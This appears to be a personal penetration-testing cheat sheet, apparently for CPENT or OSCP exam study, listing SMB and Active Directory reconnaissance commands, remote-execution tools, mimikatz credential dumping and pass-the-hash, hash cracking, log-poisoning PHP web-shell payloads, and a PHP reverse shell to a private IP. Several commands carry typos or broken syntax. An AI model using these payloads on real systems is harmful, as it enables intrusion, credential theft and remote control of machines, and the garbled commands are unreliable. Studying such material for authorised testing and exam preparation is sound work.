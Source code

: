 Markdown語法：https://hackmd.io/@eMP9zQQ0Qt6I8Uqp2Vqy6w/SyiOheL5N/%2FBVqowKshRH246Q7UDyodFA  
https://blog.stevenyu.tw/2022/06/10/%E6%B7%B1%E5%BA%A6%E8%A7%A3%E6%9E%90-cpent-%E8%80%83%E8%A9%A6%E5%BF%83%E5%BE%97%E3%80%81%E4%BB%A5%E5%8F%8A%E8%88%87-oscp-%E7%9A%84%E6%AF%94%E8%BC%83/  
## NMAP Reacon ##  
nmap -sS -n -p 445 --script smb-protocls 192.168.1.1 

## AD Reacon ##  

# Windows  
nbtstat -A (IP)  
adreacon  
# Linux  
enum4linux-ng -A  

## Reacon SMB  
net view \\192.168.1.1  
dir \\192.168.1.1  
smbclient -L //IP -U DC_name\\acount  
nmap -n -sS -p137,138,139,448 --script smb-os-discovery 192.168.1.1  
nmap -sS -n -p 445 --script smb-protocls 192.168.1.1  

## Use SMB 
smbclient -L //IP -U DC_name\\acount  
smbclient //IP/<Folder> -U DC_name\\account  
smbclient //192.168.1.1/C$ -U DC_name\\account  

## Download File 
certutil -urlcache -split -f <URL> <輸出檔名>  

## Windows Remote  
# WinRM  
evil-winrm  
# RDP  
xfreerdp3 
# psexec  
impacket-psexec  
psexec \\192.168.1.1: cmd.exe  
# smbexec  
impacket-smbexec  

# mimikatz  
privilege::debug  
tocke::elevate  
lsadump::sam  
sekurlsa::pth /user:administrator /domain:. /ntlm:<ntlm hash>  

## GDB 
# Install Plgu-in  
# Commands  
gdb XXXX(binary name)  
b main  
run  
info registers  
disassemble main  
p system
search /bin/sh  

## Privilege Escalation  
# Overlay  
https://github.com/briskets/CVE-2021-3493  


## Firmware Analyze  
# binwalk  
binwalk -e --signature --term (Filename)  
# binwalk3  
binwalk3  
# firmware analysis toolkit(fat)  
sudo ./fat3.py (filename)  
# AttifyOS Emulation  

## Hash Cracker  
# John  
john --wordlist=/usr/share/wordlists/rockyou.txt <Filename>  
# Hashcat  

## Web Recon  
# Nikto  
# wpscan  

## Log Poison  
# SSH Log (/var/log/auth.log)  
ssh '<?php system($_GET["cmd"]); ?>'@192.168.1.1
ssh -l '<?php system($_GET["cmd"]); ?>'@192.168.1.1
# Apache Log (/var/log/apache2/access.log)  
User-Agent: <?php system($_GET['cmd']); ?>

## Reverse Shell
# php
``` php -r '$sock=fsockopen("192.168.1.1",4444);$proc=proc_open("/bin/sh -i", array(0>=$sock, 1=>$sock, 2=>sock),$pipes);' ```
